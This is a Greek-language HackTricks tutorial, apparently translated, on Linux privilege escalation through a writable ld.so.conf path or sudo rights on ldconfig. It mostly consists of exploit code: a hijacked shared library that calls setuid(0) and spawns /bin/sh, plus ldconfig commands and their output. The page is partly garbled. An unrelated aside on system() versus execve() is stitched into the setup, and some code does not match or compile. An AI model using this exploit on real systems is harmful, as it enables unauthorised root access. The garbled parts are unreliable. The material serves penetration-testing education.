 # ld.so privesc exploit example

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**The PEASS Family**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## Προετοιμασία του περιβάλλοντος

Στην παρακάτω ενότητα μπορείτε να βρείτε τον κώδικα των αρχείων που θα χρησιμοποιήσουμε για να προετοιμάσουμε το περιβάλλον

```c
#include <stdio.h>
#include "libcustom.h"

int main(){
printf("Welcome to my amazing application!\n");
vuln_func();
return 0;
}
```

```c
#ifndef LIBCUSTOM_H
#define LIBCUSTOM_H

void custom_function();

#endif
```

```c
#include <stdio.h>

void vuln_func();
```

Ο παρακάτω κώδικας δείχνει ένα παράδειγμα από ένα απλό αρχείο C που χρησιμοποιεί τη συνάρτηση `system()` για να εκτελέσει μια εντολή στο σύστημα:

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    system("echo Hello, world!");
    return 0;
}
```

Αυτός ο κώδικας απλά εκτυπώνει το μήνυμα "Hello, world!" στην κονσόλα. Ωστόσο, η συνάρτηση `system()` μπορεί να χρησιμοποιηθεί για να εκτελέσει οποιαδήποτε εντολή στο σύστημα, πράγμα που την καθιστά επικίνδυνη αν χρησιμοποιηθεί από κακόβουλο κώδικα.

Για να αποφευχθεί η κακόβουλη χρήση της συνάρτησης `system()`, μπορεί να χρησιμοποιηθεί η συνάρτηση `execve()` αντί για αυτήν. Η συνάρτηση `execve()` εκτελεί μια εντολή στο σύστημα, αλλά απαιτεί την παροχή ενός πίνακα με τα ορίσματα της εντολής και των περιβαλλοντικών μεταβλητών. Αυτό καθιστά δυσκολότερη την εκτέλεση κακόβουλων εντολών.

Ο παρακάτω κώδικας δείχνει ένα παράδειγμα από ένα αρχείο C που χρησιμοποιεί τη συνάρτηση `execve()` για να εκτελέσει μια εντολή στο σύστημα:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    char *args[] = {"echo", "Hello, world!", NULL};
    char *env[] = {NULL};

    execve("/bin/echo", args, env);
    return 0;
}
```

Αυτός ο κώδικας εκτελεί την εντολή `echo Hello, world!` χρησιμοποιώντας τη συνάρτηση `execve()`. Ο πίνακας `args` περιέχει τα ορίσματα της εντολής και ο πίνακας `env` περιέχει τις περιβαλλοντικές μεταβλητές. Αυτό εξασφαλίζει ότι η εντολή που εκτελείται είναι ακριβώς αυτή που προορίζεται, χωρίς τη δυνατότητα εκτέλεσης κακόβουλων εντολών.

Η χρήση της συνάρτησης `execve()` αντί για τη συνάρτηση `system()` είναι ένας τρόπος να ενισχυθεί η ασφάλεια του κώδικα και να αποτραπεί η εκτέλεση κακόβουλων εντολών.

```c
#include <stdio.h>

void vuln_func()
{
puts("Hi");
}
```

{% tabs %}
{% tab title="Greek" %}
1. **Δημιουργήστε** αυτά τα αρχεία στον υπολογιστή σας στον ίδιο φάκελο
2. **Μεταγλωτίστε** τη **βιβλιοθήκη**: `gcc -shared -o libcustom.so -fPIC libcustom.c`
3. **Αντιγράψτε** το `libcustom.so` στο `/usr/lib`: `sudo cp libcustom.so /usr/lib` (δικαιώματα root)
4. **Μεταγλωτίστε** το **εκτελέσιμο**: `gcc sharedvuln.c -o sharedvuln -lcustom`

#### Ελέγξτε το περιβάλλον

Ελέγξτε ότι το _libcustom.so_ φορτώνεται από το _/usr/lib_ και ότι μπορείτε να **εκτελέσετε** το δυαδικό αρχείο.
{% endtab %}
{% endtabs %}

```
$ ldd sharedvuln
linux-vdso.so.1 =>  (0x00007ffc9a1f7000)
libcustom.so => /usr/lib/libcustom.so (0x00007fb27ff4d000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fb27fb83000)
/lib64/ld-linux-x86-64.so.2 (0x00007fb28014f000)

$ ./sharedvuln
Welcome to my amazing application!
Hi
```

## Εκμετάλλευση

Σε αυτό το σενάριο θα υποθέσουμε ότι **κάποιος έχει δημιουργήσει μια ευπάθη εγγραφή** μέσα σε ένα αρχείο στο _/etc/ld.so.conf/_:

```bash
sudo echo "/home/ubuntu/lib" > /etc/ld.so.conf.d/privesc.conf
```

Ο ευάλωτος φάκελος είναι _/home/ubuntu/lib_ (όπου έχουμε εγγράψιμη πρόσβαση).\
**Κατεβάστε και μεταγλωττίστε** τον παρακάτω κώδικα μέσα σε αυτήν τη διαδρομή:

```c
//gcc -shared -o libcustom.so -fPIC libcustom.c

#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

void vuln_func(){
setuid(0);
setgid(0);
printf("I'm the bad library\n");
system("/bin/sh",NULL,NULL);
}
```

Τώρα που έχουμε **δημιουργήσει την κακόβουλη βιβλιοθήκη libcustom μέσα στο μη σωστά διαμορφωμένο** μονοπάτι, πρέπει να περιμένουμε για ένα **επανεκκίνηση** ή για τον χρήστη root να εκτελέσει το **`ldconfig`** (_σε περίπτωση που μπορείτε να εκτελέσετε αυτό το δυαδικό αρχείο ως **sudo** ή έχει το **suid bit**, θα μπορείτε να το εκτελέσετε μόνοι σας_).

Μόλις συμβεί αυτό, **ελέγξτε ξανά** από πού φορτώνει το εκτελέσιμο `sharevuln` τη βιβλιοθήκη `libcustom.so`:

```c
$ldd sharedvuln
linux-vdso.so.1 =>  (0x00007ffeee766000)
libcustom.so => /home/ubuntu/lib/libcustom.so (0x00007f3f27c1a000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f3f27850000)
/lib64/ld-linux-x86-64.so.2 (0x00007f3f27e1c000)
```

Όπως μπορείτε να δείτε, το φορτώνει από το `/home/ubuntu/lib` και αν οποιοσδήποτε χρήστης το εκτελέσει, θα εκτελεστεί ένα κέλυφος:

```c
$ ./sharedvuln
Welcome to my amazing application!
I'm the bad library
$ whoami
ubuntu
```

{% hint style="info" %}
Σημείωση ότι σε αυτό το παράδειγμα δεν έχουμε αναβαθμίσει δικαιώματα, αλλά τροποποιώντας τις εντολές που εκτελούνται και **περιμένοντας τον ριζικό χρήστη ή άλλο χρήστη με προνομιακά δικαιώματα να εκτελέσει το ευπάθειας binary** θα μπορέσουμε να αναβαθμίσουμε τα δικαιώματα.
{% endhint %}

### Άλλες λανθασμένες ρυθμίσεις - Ίδια ευπάθεια

Στο προηγούμενο παράδειγμα παραπλάνησαμε μια λανθασμένη ρύθμιση όπου ένας διαχειριστής **έθεσε ένα μη προνομιούχο φάκελο μέσα σε ένα αρχείο ρύθμισης μέσα στο `/etc/ld.so.conf.d/`**.\
Αλλά υπάρχουν και άλλες λανθασμένες ρυθμίσεις που μπορούν να προκαλέσουν την ίδια ευπάθεια, αν έχετε **δικαιώματα εγγραφής** σε κάποιο **αρχείο ρύθμισης** μέσα στο `/etc/ld.so.conf.d`, στον φάκελο `/etc/ld.so.conf.d` ή στο αρχείο `/etc/ld.so.conf` μπορείτε να διαμορφώσετε την ίδια ευπάθεια και να την εκμεταλλευτείτε.

## Εκμετάλλευση 2

**Υποθέστε ότι έχετε προνομιακά δικαιώματα sudo πάνω στο `ldconfig`**.\
Μπορείτε να υποδείξετε στο `ldconfig` **από πού να φορτώνει τα αρχεία ρυθμίσεων**, έτσι μπορούμε να εκμεταλλευτούμε αυτό για να κάνουμε το `ldconfig` να φορτώσει αυθαίρετους φακέλους.\
Έτσι, ας δημιουργήσουμε τα απαραίτητα αρχεία και φακέλους για να φορτώσουμε το "/tmp":

```bash
cd /tmp
echo "include /tmp/conf/*" > fake.ld.so.conf
echo "/tmp" > conf/evil.conf
```

Τώρα, όπως προκύπτει από την **προηγούμενη εκμετάλλευση**, **δημιουργήστε την κακόβουλη βιβλιοθήκη μέσα στο `/tmp`**.\
Και τέλος, ας φορτώσουμε τη διαδρομή και ας ελέγξουμε από πού φορτώνεται ο δυαδικός αρχείος της βιβλιοθήκης:

```bash
ldconfig -f fake.ld.so.conf

ldd sharedvuln
linux-vdso.so.1 =>  (0x00007fffa2dde000)
libcustom.so => /tmp/libcustom.so (0x00007fcb07756000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fcb0738c000)
/lib64/ld-linux-x86-64.so.2 (0x00007fcb07958000)
```

**Όπως μπορείτε να δείτε, έχοντας δικαιώματα sudo πάνω στο `ldconfig`, μπορείτε να εκμεταλλευτείτε την ίδια ευπάθεια.**

{% hint style="info" %}
**Δεν βρήκα** ένα αξιόπιστο τρόπο για να εκμεταλλευτώ αυτήν την ευπάθεια αν το `ldconfig` έχει ρυθμιστεί με το **suid bit**. Εμφανίζεται το ακόλουθο σφάλμα: `/sbin/ldconfig.real: Can't create temporary cache file /etc/ld.so.cache~: Permission denied`
{% endhint %}

## Αναφορές

* [https://www.boiteaklou.fr/Abusing-Shared-Libraries.html](https://www.boiteaklou.fr/Abusing-Shared-Libraries.html)
* [https://blog.pentesteracademy.com/abusing-missing-library-for-privilege-escalation-3-minute-read-296dcf81bec2](https://blog.pentesteracademy.com/abusing-missing-library-for-privilege-escalation-3-minute-read-296dcf81bec2)
* Dab machine στο HTB

<details>

<summary><strong>Μάθετε το hacking στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**The PEASS Family**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα κόλπα σας στο hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

